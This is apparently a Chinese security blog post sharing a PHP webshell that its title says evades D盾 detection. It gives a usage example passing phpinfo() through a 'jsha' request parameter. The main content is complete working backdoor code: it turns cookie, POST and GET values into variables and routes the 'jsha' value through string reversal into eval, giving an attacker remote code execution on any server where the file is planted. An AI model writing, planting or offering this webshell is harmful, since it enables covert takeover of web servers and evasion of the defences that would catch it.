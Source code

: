 ```yaml
---
layout: post
title: PHP WebShell [过D][2019-04-04]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等。


> /?jsha=phpinfo()


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)

